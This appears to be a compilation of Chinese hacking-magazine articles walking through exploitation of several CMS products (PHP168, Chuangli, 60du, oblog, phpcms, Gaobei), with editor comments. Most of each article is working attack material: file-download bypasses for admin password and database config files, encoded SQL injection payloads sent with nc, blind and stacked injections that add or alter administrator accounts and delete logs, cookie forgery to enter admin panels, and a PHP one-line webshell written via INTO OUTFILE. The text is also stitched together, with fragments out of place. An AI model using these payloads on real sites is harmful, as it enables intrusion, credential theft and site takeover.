    if($rsdb[allowdown]&&!$web_admin&&$lfjuid!=$rsdb[uid]){
        $detail=explode(",",$rsdb[allowdown]);
        if(!in_array($groupdb['gid'],$detail)){
            showerr("你所在的用户组无权限下载");
        }
    }
    $url=base64_decode($url);
    if(eregi(".php$",$url)){
        die("ERR");
    }
    $fileurl=str_replace($webdb[www_url],"",$url);
```

再来看一下 0801 之前的 job.php 文件相关代码：

```php
// 下载文章附件
elseif($job=="download")
{
    $rsdb=$db->get_one("SELECT * FROM {$pre}article WHERE aid='$id'");
    $fidDB=$db->get_one("SELECT * FROM {$pre}sort WHERE fid='$rsdb[fid]'");
    // 相同代码略
    }
    $url=base64_decode($url);
    $fileurl=str_replace($webdb[www_url],"",$url);
```

比较一下，看看多了什么：

```php
if(eregi(".php$",$url)){
    die("ERR");
}


```

最新的文件代码中过滤了 php 后缀，job.php 文件原来是下载附件的，这么说以前可以下载 PHP 文件？要下载文件首先要满足：job=="download"，然后到这里 `$url=base64_decode($url);`，用了 base64 编码，也就是说构造 `job.php?job=download&url=base64` 的地址就 OK 了。

下一套 PHP168 程序，发现管理员登录密码保存在“/cache/adminlogin_logs.php”文件里，那么完整的连接参数就应该是：`job.php?job=download&url=L2NhY2hlL2FkbWlubG9naW5fbG9ncy5waHA=`，呵呵，下载框弹了出来，如图1所示。

那么打了补丁的文件我们提交参数后会怎样呢？提交后会显示“ERR”，因为判断到了是 PHP 后缀，如图2所示。

程序员这么判断好像有点……大家都知道在 WIN 中空格是什么含义，那么直接在 `/cache/adminlogin_logs.php` 后面加个空格，也就是 `/cache/adminlogin_logs.php `，然后再用 base64 编码，如图3所示，接着提交，结果如图4所示，还是可以下载！

本来以为事情就完了呢，在 QQ 上跟几个朋友说了一下，结果到了5日，又来了一个补丁。心中郁闷啊，官方动作挺快的呀，回过头又把补丁下回来做比较，看看哪里不一样。这次找到的更新点如下：
```php
$url=base64_decode($url);
if(eregi(".php",$url)&&!eregi("://",$url)){
    die("ERR");
}


```
这次貌似多了一个 `://` 进行限制，那么直接提交：

`job.php?job=download&url=(base64编码后的)http://fuck.net/cache/adminlogin_logs.php`

注意后面有一空格，而且要把 HTTP 地址转换下。呵呵，又弹出了可爱的对话框，接下来破 MD5 密码进后台，后台路径默认为 admin。

如果改了咋办？不急，PHP168 的配置文件为“/php168/config.php”，我们用同样的办法把这个文件下回来，然后搜索 `admin_url` 就会找到后台路径了，如图5、图6所示。

如果 MD5 密码过于强大，我们还可以下载数据库连接文件，里面会保存 MYSQL 的连接密码，文件名为：`php168/mysql_config.php`。可以用里面的密码试下 FTP 和后台等等，进了后台拿 SHELL 就很容易了，比如用直接添加 PHP 后缀上传，也可以在常用功能里的数据库工具里执行 SQL 语句获得一个一句话的 SHELL，内容为：

`SELECT '<?php @eval($_POST[cmd]);?>' into outfile 'E:/Demosite/Gzdt/xxxx/i.php'`

如图7、图8所示。

为了方便大家手工测试和来回转换，我写了一个利用工具，直接把目标网站填进去就可以了，如图9所示。

其实这次官方不打补丁也许没有人知道，而打了补丁稍稍懂点 PHP 的人就把漏洞找到了。在8月6日，官方已经出了第三次补丁，关于这次，嘿嘿……大家去挖掘吧。

（文中用到的 exp 工具已经收录在光盘中）
图4 下载框
图5 下载 config.php 文件
图6 admin_url 地址
图7 写入一句话木马
图8 写入成功
图9 利用工具

# 编辑点评

从补丁分析出其要补的漏洞，再对未及时打补丁的目标进行攻击是非常有成效的，所以各大站长需要密切关注其官方动态，及时打补丁，以免遭遇不测。

- 从本文可以学到：
- 1、创力 CMS 漏洞分析
- 2、漏洞的利用

创力的 CMS，从安全性和功能方面来说都算是一个比较强大的 CMS，今天我暴出它的一个 SQL 注入 0DAY，顺便说一下 in 类型的 SQL 注入漏洞。

# 一、漏洞原理分析

下载创力最新版本，在本地配置好环境，漏洞文件为 User_Friend.asp，删除好友那里：

```asp
' 99行
Sub delFriend()
dim delid
delid=replace(request.form("id"),"'","")
If delid="" or isnull(delid) then
Call Cl.OutMsg(0,"您已经删除选定的好友记录。",
"javascript:history.go(-1)")
Exit Sub
else
Cl.Execute_U("delete from " & Db.FriendTable & " where F_username='"&Cl.MemberName&"' and F_id in ("&delid&")")
Call Cl.OutMsg(0,"您已经删除选定的好友记录。",
"User_Friend.asp")
End if
End Sub


```

可以看出变量 delid 只是过滤了“'”，但在 in 那里可以很容易构造出具有攻击性的 SQL 语句。如：`828) and exists(select * from DV_admin) and select * from xxx where id in(1`，这是对于 access 数据库。in 型 SQL 注入对于 access 数据库来说，利用起来是比较麻烦的。

# 二、漏洞利用过程

下面演示一下漏洞利用过程，因为这个站是 mssql 的，所以利用起来比较简单。先注册一个用户：aaabbbabc，登录成功后选择“用户信息管理 -> 用户短消息”功能，如图1。

点击地址簿，如图2。

然后点击“添加好友”，随便添加一个好友。添加完成后，在操作那选择好，然后点删除（在删除前我们来抓包），如图3。

因为是 `request.form("id")` 的，和防止外部提交，所以我们要利用一下工具。
图1 用户短消息功能
图2 地址簿
图3 删除

抓包工具（WSockExpert.exe）取得提交数据包；NC，一个功能很强大的工具，可以将取得的数据包提交到服务器；以及编码转换工具。

我们先来抓包（抓包工具的使用请参考相关使用说明）：

```http
POST /User/User_Friend.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-ms-application, application/x-ms-xbap, application/vnd.ms-xpsdocument, application/xaml+xml, */*
Referer: http://xxxx.cn/User/User_Friend.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Maxthon; Maxthon; InfoPath.2; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
Host: xxxx.cn
Content-Length: 26
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDQCRCCTRT=PNDOLMJBCGBBBLHCNCHAHPP!; xxx=UserGroupID=4&Password=49ba59abbe56e057&UserName=aaaaaa&UserID=555&GuestSID=2191362111111;
id=841&action=%C9%BE%B3%FD
```

抓包后，我们重复上面操作增加同样的好友，同时把抓包数据保存为文件（这里为 4.txt），然后把 841 改为：

`841) and exists(select * from cl_admin)--`

因为 POST 提交，我们还需要转换一下编码为：

`%38%34%31%29%20%61%6E%64%20%65%78%69%73%74%73%28%73%65%6C%65%63%74%20%2A%20%66%72%6F%6D%20%63%6C%5F%61%64%6D%69%6E%29%2D%2D`

然后用 NC 提交，NC 命令：

```bash
nc xxxx.cn 80<4.txt    // 向 IP 端口 80 发送 4.txt
```

返回结果如下：

```html
"发送消息" /></a></td></tr></table><br /><span style='font-size:12px;'>执行查询代码时发现错误。</span>delete from [Dv_Friend] where F_username='aaaaaa' and F_id in (841) and exists(select * from cl_admin)--) <span style='font-size:12px;'><br />错误号：-2147217913<br />错误描述：对象名 'cl_admin' 无效。<br />错误来源：Microsoft OLE DB Provider for SQL Server</span>
```

因为是整合动网的，库中没有表 cl_admin，但一定有 dv_admin，上面的提示也说明了漏洞的存在和可以执行 SQL 命令的。

没事就上 ASP 的源码站去 DOWN 些代码回来看，这不，又找到一个下手的对象——60度 CMS。这个程序的致命伤有两处，一个是传统的注入，还有一个就是弱不禁风的后台验证。

那么我们直接得用 SQL 语句暴它密码，管理员账号为 admin，其对应的 SQL 语句为：

`841) and 0<(select userpassword from dv_user where userpassword >1 and username='admin')--`

又因为过滤掉“'”，所以用户名也要编码转换一下，`0x61646D696E`（十六进制）。

`841) and 0<(select userpassword from dv_user where userpassword >1 and username=0x61646D696E)--`

转换为：

`%38%34%31%29%20%61%6E%64%20%30%3C%28%73%65%6C%65%63%74%20%75%73%65%72%70%61%73%73%77%6F%72%64%20%66%72%6F%6D%20%64%76%5F%75%73%65%72%20%77%68%65%72%65%20%75%73%65%72%70%61%73%73%77%6F%72%64%3E%31%20%61%6E%64%20%75%73%65%72%6E%61%6D%65%3D%30%78%36%31%36%34%36%44%36%39%36%45%20%29%2D%2D`

再次用 NC 提交，出现错误信息如下：

```html
"发送消息" /></a></td></tr></table><br /><span style='font-size:12px;'>执行查询代码时发现错误。</span>delete from [Dv_Friend] where F_username='aaaaaa' and F_id in (841) and 0<(select userpassword from dv_user where userpassword>1 and username=0x61646D696E)--) <span style='font-size:12px;'><br />错误号：-2147217913<br />错误描述：将 nvarchar 值 '6371a004db1aa856' 转换为数据类型为 int 的列时发生语法错误。<br />错误来源：Microsoft OLE DB Provider for SQL Server</span>

即可得到木马文件 `http://www.xxx.com/UploadFiles/Article/diy.asp/1.jpg`，有兴趣的可以研究一下。

```

暴出了密码 `6371a004db1aa856`。

同理，我们能得到任何管理员的密码，或执行任何 SQL 语句，得到系统权限。

# 三、杂谈

创力还存在一个前台管理员拿 webshell 的漏洞，具体漏洞文件在 admin_files.asp。

提交地址：

`http://www.xxx.com/Admin/Admin_Files.asp?action=rname&fileType=select&ChannelID=11&ThisDir=../Article/&FolderId=2008-4&NewName=diy.asp`
# 编辑点评

这个漏洞利用起来比较辛苦，得手工增加好友、再删除好友，如此循环地判断，其工作量还是不小的，谁来写个小工具？

# 一、看似过滤了的注入漏洞

我们在主页上看到的文件都是静态的，是因为后台可以生成 HTML。有些文件虽然在主页上看不见，但是我们可以直接去访问。网站下的文件比较少，我看的是 class.asp 文件，代码如下：

```asp
<!--#include file="inc/conn.asp"-->
<!--#include file="inc/LabelFunction.asp"-->
<%response.contenttype="text/html;charset=gb2312"
set rs = conn.execute("select template_class,template_list,template_d, dtype from cms_class where id = "&classid)
set aa = new art_list
if rs(3)=0 then
    aa.templateurl=rs(0)
elseif rs(3)=1 then
    aa.templateurl=rs(1)
else
    aa.templateurl=rs(2)
end if
``````asp
aa.templatecid=classid
aa.templatepage=page
str=aa.tag()
response.Write str
%>
```

当时我很奇怪，怎么没有用 request 来接收参数呢？而查询语句里明明是有变量的啊？而且变量事先并没有赋值啊？根据 include 的文件，我找到了 conn.asp，哦，原来秘密在这里：

```asp
FOR Each item in Request.QueryString
    Execute item & "=checkstr(Request.QueryString(""" & item & """))"
Next
FOR Each item in Request.Form
    Execute item & "=checkstr(Request.Form(""" & item & """))"
Next
```

这两句话的意思是循环接收 request 来的数据（包括 GET 和 POST 来的），然后用函数 checkstr 来检测，checkstr 的定义为：

```asp
function checkstr(str)
    checkstr=replace(str,"'","''")
    checkstr=replace(str,"""","")
    checkstr=replace(str,";","")
    checkstr=replace(str,"%","")
    checkstr=replace(str,"from"," F rom")
    checkstr=replace(str,"and"," A nd")
end function
```

这里是替换掉接收参数里的敏感字符，比如常用到的 and、from、分号、单引号等，看似过滤了，其实根本就没有过滤，因为程序员没有考虑到大小写的问题。不管是 Request.QueryString 还是 Request.Form 里的参数，大小写由我们定，而 checkstr 只把小写的 and 和 from 过滤了，所以这个防注入的函数就形同虚设了。

我们给 class.asp 文件提交参数 class.asp?classid=1 AND 1=1 和 class.asp?classid=1 AND 1=2 看看，如图 1、图 2 所示。


管理员的表为 60DU_ADMIN，我们提交 class.asp?classid=1 AND EXISTS (SELECT COUNT(*) FROM 60du_ADMIN)，显示是和 class.asp?classid=1 AND 1=1 一样的页面，说明 60du_ADMIN 存在，我们就可以这样猜解出管理员的账号密码了，如图 3 所示。


# 二、形同虚设的后台验证

当然，我们其实根本可以不依靠注入来进入后台，因为后台的验证文件纯粹就是用来吓唬人的。后台 check.asp 文件的代码如下：

```asp
<!--#include file="../inc/md5.asp"-->
'判断用户是否登录
if session("cmsname")="" and instr(CStr(Request.ServerVariables("SCRIPT_NAME")),"login.asp")=0 then
    if request.Cookies("cmsname")="" then
        response.Redirect("login.asp")
    elseif Session("admin_id")=null then
        Response.Write("<script>alert('登录超时！');parent.location = 'login.asp';</script>")
    else
        session("cmsname")=request.Cookies("cmsname")
        session("cmsid")=request.Cookies("cmsid")
    end if
end if
%>
```

看到没有，还用到了 SESSION 验证，看起来挺唬人的，其实自己打了自己嘴巴。我们看，如果 session("cmsname")=""，并且 instr(CStr(Request.ServerVariables("SCRIPT_NAME")), "login.asp")=0（这句话的意思是取得当前访问的文件名，看是不是 login.asp），满足这 2 个条件就进行判断。判断什么呢？如果 request.Cookies("cmsname")=""，即 COOKIE 里 CMSNAME 为空的话就跳到 login.asp，然后接着判断，如果 Session("admin_id")=null 的话就显示登录超时。

但是我们知道，COOKIE 是可以在本地伪造的，一旦我们修改 COOKIE 值里的 cmsname=任意值，第一次访问后台文件时会进行以上的判断，因为我们 session("cmsname")=""；我们访问一次后，CHECK.ASP 文件自动帮我们生成了一个 session("cmsname")=request.Cookies("cmsname")，即我们 session("cmsname") 就不会为空了。

然后我们第二次访问后台文件，因为 session("cmsname") 已经有值，所以上面的代码就完全失去了作用，我们就可以直接访问后台任意文件了。看来作者对于 SESSION 验证还理解得不够深入，让我们有了可乘之机。

下面我用 DOMAIN 来演示如何登录官方演示站的后台。当我们第一次登录后台时，COOKIE 值是没有的，如图 4 所示。


我们修改 COOKIE 值为 cmsname=sniperhg;cmsid=1，这 2 个值加在原来 COOKIE 语句后面。点击修改，然后访问任意后台文件，这里我访问 index.asp。点击连接，然后我们就大摇大摆地进了后台，如图 5 所示（这里要重复一遍，因为我们要访问 2 次后台文件，进行 2 次判断）。后台功能相当强大，有文件管理器，我们可以新建 ASP 文件，也可以修改原有的 ASP 文件。这样，我们可以加入一句话，或是写个完整的 ASP 木马都是没有问题的。

# 三、漏洞的修补

注入的修补很简单，就是把接收来的参数都转成小写，代码对比修改如下：

```asp
FOR Each item in Request.QueryString
    Execute item & "=checkstr(Request.QueryString(""" & item & """))"
```

改为：

```asp
FOR Each item in Request.QueryString
    Execute item & "=checkstr(LCase(Request.QueryString(""" & item & """)))"
Next
```

POST 同理，不再赘述。验证的修补就只用 session，别用那不保险的 cookie。对于这个程序，我还是告知官方，让他们自己改吧，我可不想再杀害自己的脑细胞了。

## 编辑点评：

注射漏洞的过滤比较弱，完全就是摆设而已，根本没有理解注射；另外一个后台验证的漏洞也是由于系统的作者对 session 的机制认识不清楚导致的。由此可见，程序员的安全意识还需要提高。

## oblog 4.60 Final Oday

图 Mystery


从本文你可以学到 oblog 4.60 Final Oday 分析利用。

时光飞逝，转眼间暑假悄然而至。趁着暑假偶跑去读了 oblog 的代码，经过一个上午的瞎折腾，结果还真让我撞上了一个 0day！废话不多说，下面一起来看看。

- 漏洞文件：User_blogmanage.asp
- 影响版本：4.60 Final access/mssql（貌似 4.50 Final 也受影响，我没有测试哦）

## 漏洞分析

漏洞存在于 User_blogmanage.asp 文件中，涉及漏洞的相关代码如下：

```asp
......
action = Trim(Request("action")) '63-65行
id = Request("id")
If id<>"" And Instr(id,",")<=0 Then id=CLng(id)
......
select Case LCase(action) '91-104行
Case "del"
    Call delblog
Case "move" '调用移动日志过程
    Call moveblog
Case "updatelog"
    Call updatelog
Case "downlog"
    Call BackUp
Case "delall"
    Call delallblog
Case Else
    Call main
End select
......
Sub moveblog() '605-709行
    If id = "" Then
        oblog.adderrstr ("请指定要移动的" & tName)
        oblog.showusererr
        Exit Sub
    End If
    Dim subjectid,classid,chkclass,chksubject
    Dim rs,rsSubject,ishide

    chkclass=Request("chkclassid")
    chksubject=Request("chksubjectid") '邪恶的根源
    subjectid = Trim(Request("subjectid")) '被带入SQL的变量
    classid = Trim(Request("classid"))
    If chksubject="1" Then
        If subjectid = 0 Then '如果chksubject为1，subjectid为0则提示错误
            oblog.adderrstr ("请指定要移动的目标专题")
            oblog.showusererr
            Exit Sub
        Else '否则使用CLng函数对subjectid强制进行整数运算
            subjectid = CLng(subjectid)
        End If
    End If
    If chkclass="1" Then
        If classid = 0 Then '和前面同样的处理方式
            oblog.adderrstr ("请指定要移动的系统分类")
            oblog.showusererr
            Exit Sub
        Else
            classid = CLng(classid)
        End If
    End If
    '查询目的专题ID是否为隐藏
    Set rsSubject = oblog.Execute ("SELECT ishide FROM oblog_subject WHERE subjectid = " & subjectid) 'subjectid被带入SQL执行
    If Not rsSubject.Eof Then
        If rsSubject(0) = 1 Then
            ishide = True
        Else
            ishide = False
        End If
    End If
    Set rsSubject = Nothing
    Dim blog, rs1
    Set blog = New class_blog
    blog.userid = oblog.l_uid
    If InStr(id, ",") > 0 Then
        id = FilterIDs(id)
        If chksubject="1" Then
            if not IsObject(conn) then link_database
            Set rs = Server.CreateObject("Adodb.Recordset")
            rs.Open "SELECT a.subjectid,a.isspecial,b.ishide,a.logid FROM oblog_log a LEFT JOIN oblog_subject b ON a.subjectid = b.subjectid WHERE logid in (" & id & ") and ( a.userid=" & oblog.l_uid & " or authorid=" & oblog.l_uid & " )", conn,1,3
            While Not rs.Eof
                rs(0) = subjectid
                If OB_IIF(rs(2),0) = 0 Then
                    If ishide Then
                        rs(1) = rs(1) + 1
                    End If
                Else
                    If Not ishide Then
                        rs(1) = rs(1) - 1
                    End If
                End If
                rs.Update
                blog.update_log rs(3),0
                rs.MoveNext
            Wend
        End if
        If chkclass="1" Then conn.execute("Update [oblog_log] set classid=" & classid & " where logid in (" & id & ")" & wsql)
    Else
        If chksubject="1" Then
            if not IsObject(conn) then link_database
            Set rs = Server.CreateObject("Adodb.Recordset")
            rs.Open "SELECT a.subjectid,a.isspecial,b.ishide,a.logid FROM oblog_log a LEFT JOIN oblog_subject b ON a.subjectid = b.subjectid WHERE logid = " & Int(id) & " and ( a.userid=" & oblog.l_uid & " or authorid=" & oblog.l_uid & " )", conn,1,3
            if Not rs.Eof Then
                rs(0) = subjectid
                If rs(2) = 1 Then
                    If Not ishide Then
                        rs(1) = rs(1) + 1
                    End If
                Else
                    If ishide Then
                        rs(1) = rs(1) - 1
                    End If
                End If
                rs.Update
                blog.update_log rs(3),0
            End if
        End If
        If chkclass="1" Then conn.execute("Update [oblog_log] set classid=" & classid & " where logid=" & CLng(id) & wsql)
    End If
    Set rs = Nothing
    If chksubject="1" Then
        Set rs = oblog.Execute("select subjectid from oblog_subject where userid=" & oblog.l_uid & " And subjecttype=" & t)
        While Not rs.EOF
            Set rs1 = oblog.Execute("select count(logid) from oblog_log where ablog_log.subjectid=" & rs(0))
            oblog.Execute ("update oblog_subject set subjectlognum=" & rs1(0) & " where oblog_subject.subjectid=" & rs(0))
            rs.MoveNext
        Wend
        Set rs = Nothing
        Set rs1 = Nothing
        blog.Update_Subject oblog.l_uid
        blog.update_index 0
        Set blog = Nothing
        oblog.ShowMsg "转移日志专题成功!", ""
    End If
    If chkclass="1" Then oblog.ShowMsg "更新系统分类成功!", ""
End Sub
```

从代码可以看出，程序员犯了逻辑错误。chksubject 只是简单判断是否为 1，如果为 1，并且 subjectid 为 0 则提示错误，否则使用 CLng 函数对 subjectid 强制进行整数运算。不过 chksubject 是通过一句 chksubject=Request("chksubjectid") 获取，并且没有任何判断哦！如果我们提交 chksubjectid 为 2，是不是可以成功躲过 CLng 函数的整型转换呢？

下面来测试下，这个文件需要登录后才能访问。先注册一个用户，注册登录后到“日志”->“日志专题”->“添加分类”中随便添加一个分类，如图 1 所示。


添加分类后发布一篇日志，接着来到“日志管理”->“移动专题”，勾选要移动的日志，“目标专题”选择刚刚我们添加的分类，在点击“移动”之前打开 WinSock Expert 准备抓包，如图 2 所示。


抓到的数据如下：

```http
POST /blog/user_blogmanage.asp?t=0&usersearch=0 HTTP/1.1
......
Referer: http://www.xxxxxx.com/blog/user_blogmanage.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
......
Host: www.xxxxxx.com
Content-Length: 70
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ......
id=840&action=move&subjectid=50&chksubjectid=1&chkclassid=1&classid=39
```

修改 chksubjectid=1 为 chksubjectid=2，subjectid=50 为 subjectid=50+and+1=1，然后计算下添加的字符数，Content-Length: 70 改为 Content-Length: 78，接着保存为 1.txt。最后用 nc 提交“nc -vv www.xxxxxx.com 80 <1.txt >1.html”，提交后打开 1.html，如图 3 所示。

这时弹出一个框框，把 subjectid=50+and+1=1 改为：


subjectid=50+and+1=2 进行保存，再次提交，返回的结果和图 3 一样，没有任何差异！难道说在 access 数据库下这个漏洞没戏了？答案是否定的！记得寂寞的刺猬有篇文章，提到用 iif 函数来注入，我们来看看这个函数，其语法为：

```vbscript
iif(expr, truepart, falsepart)
```

执行时，先判断逻辑表达式 expr 的值，若值为“True”，则返回 truepart 的值；否则返回 falsepart 部分的值。接着把前面的 +and+1=1 改为 +and+2=(iif((1=1),2,'2+abc'))，修改 Content-Length 后提交，返回的结果还是和图 3 一样。

这里 iif 函数内的 (1=1) 肯定为“逻辑真”，因此我们 SQL 语句最终为“and 2=2”，效果和 and 1=1 是一样的。修改 (1=1) 为 (1=2)，再次提交，返回如图 4 所示。

暴错了，返回“标准表达式中数据类型不匹配”，这是因为我们的 SQL 语句经过 iif 函数后，最终为“and 2=2 abc”，由于数据类型不匹配，所以报错！两个页面返回不同，现在可以猜解了，把 (1=1) 换成 SQL 语句就行了。猜对了弹框框，猜错了就报错，SQL 语句如下（提交的时候空格要换成 +，我已经换好了）：

```sql
猜管理员id
+and+2=(iif((select+top+1+id+from+[oblog_admin])=1,2,'2+abc'))

猜管理员用户名长度
+and+2=(iif((select+len(username)+from+[oblog_admin]+where+id=1)<10,2,'2+abc'))

猜管理员用户名
+and+2=(iif((select+asc(mid(username,1,1))+from+[oblog_admin]+where+id=1)<58,2,'2+abc'))

猜管理员密码
+and+2=(iif((select+asc(mid(password,1,1))+from+[oblog_admin]+where+id=1)<58,2,'2+abc'))
```

以上的 SQL 语句相信会手工注入的朋友都看得懂，只是把 SQL 语句放到 iif 函数中去，其它没什么不同。手工猜解需要耐心，我就不手工了，改写了一个 exp 方便注入，exp 使用需要在本地保存 cookie，即登录的时候勾选“保存我的登录信息”，如图 5 所示。


exp 使用格式为“cscript exp.vbs TargetURL id subjectid userid”，TargetURL 为博客地址；id、subjectid 可以在“移动专题”时抓包获得；userid 为管理员的 id，可以从 1-20 试下，一般网站的管理员 id 不会超过 20，如图 6 所示。


图 6

如果说这个漏洞在 access 下只能猜猜 MD5，那么在 mssql 环境下它绝对是一个致命伤！在 mssql 下只需要使用暴错法暴出管理员 MD5 或执行 SQL 添加一个管理员就 OK 了。以下是我测试时用到的 SQL 语句：

```sql
-- 爆出 ID 为 1 的管理员 MD5 密码
/**/and/**/1=(select/**/top/**/1/**/password/**/from/**/[oblog_admin]/**/where/**/id=1)

-- 添加上传文件类型 stm
;update/**/[oblog_groups]/**/set/**/g_up_types='|jpg|gif|zip|rar|txt|doc|png|stm';--

-- 恢复上传文件类型
;update/**/[oblog_groups]/**/set/**/g_up_types='|jpg|gif|zip|rar|txt|doc|png';--

-- 添加管理员 mystery，密码为 12345678
;insert/**/into/**/[oblog_admin]/**/(username,password,roleid)values('mystery','83aa400af464c76d',0);--

-- 删除管理员 mystery
;delete/**/[oblog_admin]/**/where/**/username='mystery';--

-- 修改管理员 admin 密码为 12345678
;update/**/[oblog_admin]/**/set/**/password='83aa400af464c76d'/**/where/**/username='admin';--

-- 删除用户 mystery 的日志
;delete/**/[oblog_log]/**/where/**/author='mystery';--

-- 删除管理员 mystery 的系统日志
;delete/**/[oblog_syslog]/**/where/**/username='mystery';--
```

在 mssql 环境下漏洞的利用方法与 access 版一样，“移动专题”的时候抓包，抓包后修改数据包提交即可，没什么好说的。这里说一点其它的，大家注意到我提供的 SQL 语句中有一句“上传文件类型 stm”了吗？当管理员改了后台地址的时候，可以利用这个碰碰运气。

上传一个内容为“<!--#include file="../../conn.asp"-->”（“../../”是根据相对目录而言的，根目录则改为“../”，查看其它文件可以把 conn.asp 改为其它的文件名）的 stm 文件，上传后访问 stm 文件地址，查看源文件就可以得到 conn.asp 的源代码。找到其中的数据库账号密码，使用 SQL 查询分析器连接后列出物理路径，然后备份差异得到 webshell……当然数据库能不能连接上就看人品咯！

最后说下如何区别 oblog 的 access 版和 mssql 版，其实直接访问 ver.asp 文件就 OK 了，得到的版本信息中包含 access 则是 access 版，否则就是 mssql 版。文章就写到这里，有什么问题欢迎到 NoHACK 论坛找我讨论，我的 ID 是 mystery。

# 编辑点评

oblog 的这个漏洞利用起来还是有点难度的，能发掘出这个漏洞也挺不简单的，各位朋友仔细琢磨下，有问题去坛子里面找 mystery。

# 从本文你可以学到 php_gbk_0day 的分析和利用

# 铸剑师

在很久以前，80sec 的大牛们放出了一个 phpwind 0day，描述是 gbk 字符集导致注射。大家可以去参考下 80sec 那篇文章，地址为 http://www.80sec.com/php-coder-class-security-alert.html

# 开封

其实也很简单，问题出在 /member/member.php 中，username 太相信字符集了，直接读取数据库里的信息，因此我们可以构造一个注入点：http://


图 1 构造注射 URL

phpcmsroot/member/member.php?username=0kee%af'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,username,34,password,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58/**/from/**/phpcms_member/**/where/**/userid=1/*


图 2 注射结果

这段语句中，因为 %af 是个正常 utf8 编码，它和 php 里转义用的 \ 会被视为一个正常的变量，因此就可以结合 \ 来注射了，最后的 0kee%af' 就是注射的关键了，注射效果如图 1、图 2 所示。

由于 phpcms 把前缀改了，就无法继续演示了，东西也就点到为止。目前 phpwind、dz、phpcms 都出来了，相信 dedecms 等 php 支持 gbk 字符集的 CMS 代码都得想办法咯。

# 断剑

修补的方案有很多，可以像 80sec 说的，多次转换然后提交数据，或者直接用 utf8 字符集算了……呵呵。

# 编辑点评

在字符集上翻船的系统有好几个了，当越来越多的人把目光集中在这些相对比较冷门的技巧上时，会更进一步地促进安全的强度。


# “重重突破”到“致命一击”

## ——分析利用高贝文章 v3.0 漏洞

图莫×问[B.H.S.T]

从本文你可以学到：

- 1、高贝文章 v3.0 漏洞分析
- 2、漏洞的利用和分析思路

## 一、事情缘由

最近检测母校的网站，发现其中一个分站是利用了高贝文章系统 v3.0。苦于手中没有其漏洞资料，又是第一次听说这个系统，于是就下载了 v3.0 版本。后来发现其最近更新是 2006 年的，貌似也太老了吧！读了部分代码就发现几个漏洞，不过本文不在于漏洞本身，而在于其分析的过程和感受，另外就是思路。

## 二、漏洞分析与利用

1、注册的跨站，算是个鸡肋

个人习惯先看看注册的过滤，好像不是很严格，直接到 User_RegPost.asp 文件代码的 25—36 行处：

```vbscript
if (document.GaobeiSys_Reg.UserName.value.indexOf("<")!=-1 ||
document.GaobeiSys_Reg.UserName.value.indexOf(">")!=-1 || document.
GaobeiSys_Reg.UserName.value.indexOf("$")!=-1)
{
alert("用户名中包含非法字符（<,>,$）");
document.GaobeiSys_Reg.UserName.focus();
return false;
}
if (document.GaobeiSys_Reg.UserName.value.indexOf("'")!=-1 ||
document.GaobeiSys_Reg.UserName.value.indexOf("%")!=-1 || document.
GaobeiSys_Reg.UserName.value.indexOf("&")!=-1)
{
alert("用户名中包含非法字符（',%,&）");
document.GaobeiSys_Reg.UserName.focus();
return false;
}
```

很显然只过滤了 <、>、'、% 四种字符，另外还限制了长度（只能输入 10 字符）。我们可以查看其源码，然后保存在本地修改其 maxlength 值就 OK 了。那么那些字符的过滤又怎么绕过呢？可以用 eval() 函数配合 ajax 就可以了，不过我不熟悉，就不给大家介绍了。

2、opensoft.asp 的隐藏注射漏洞

直接看 opensoft.asp 文件代码的 10—23 行：

```vbscript
if(request.querystring("soft_id") <> "") then
colname = request.querystring("soft_id")
end if
url="soft_url"+request("url")
sql="select * from [soft] where soft_id="&colname&""
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,1
```


图 1 迅雷下载

很显然变量 colname 仅仅检测是否为空就带入 sql 查询，注入漏洞产生了。本来以为很简单就可以得到管理员密码，可是回到主页没有发现一个页面是 opensoft.asp?soft_id= 的。根据 asp 文件名字来看，应该和软件下载有关，就在首页随便找个下载链接 http://localhost/showdown.asp?soft_id=54。这时启动 WsockExpert 进行设置，准备截取数据包。


图 2 截包

点击下载，通过迅雷可以看到确实调用了 opensoft.asp 这个文件，如图 1 所示，并拦截其数据包得到信息如图 2 所示。


图 3 直接输入后的结果

那么我们直接输入 http://localhost/opensoft.asp?soft_id=54 看看，返回结果如图 3 所示。

看到这个提示，有经验的人就会知道，应该是“防盗链”问题。我们回到代码去看看，在 opensoft.asp 文件的第 4—9 行：

```vbscript
From_url = Cstr(Request.ServerVariables("HTTP_REFERER"))
Serv_url = Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(From_url,8,len(Serv_url)) <> Serv_url then
response.write "非法链接！" '防止盗链
response.end
end if
```

原来调用了 http_referer 来验证是否盗链，接下来我们就来绕过防盗链。再回到图 2，看到 Referer：http://localhost/showdown.asp?soft_id=54 这行时思路有了，我们只要伪造 referer 就可以了。可是接下来的问题是怎么伪造才可以进行注入？问好友旭方这个问题，他扔给我一个软件 quickspoof，说可以利用这个来伪造并进行注入。

下面开始手工注射这个“隐藏”的注入点，首先要伪造 referer。打开 quickspoof，然后选择“add”按钮，按照如图 4 所示填入相关信息。


图 4 伪造 referer


图 5 下载成功

然后点击“OK”回到主窗口按下“spoof”按钮。如果返回正常就可以下载你之前要下载的那个文件来，如果异常错误就下载以 opensoft 为文件名的空文件。如图 5 所示，图中的“广告上传图片功能升级文件 for 2.0”正是要下载的 id=54 文件，返回正常。

说明 http://localhost/opensoft.asp?soft_id=54 and 1=1 返回正常，继续修改 referer。点击 quickspoof 的“edit”修改刚才构造的 referer，修改“Target URL”一栏为：http://localhost/opensoft.asp?soft_id=54 and 1=2，即检测是否存在注入漏洞，如图 6 所示。


图 6 编辑 URL

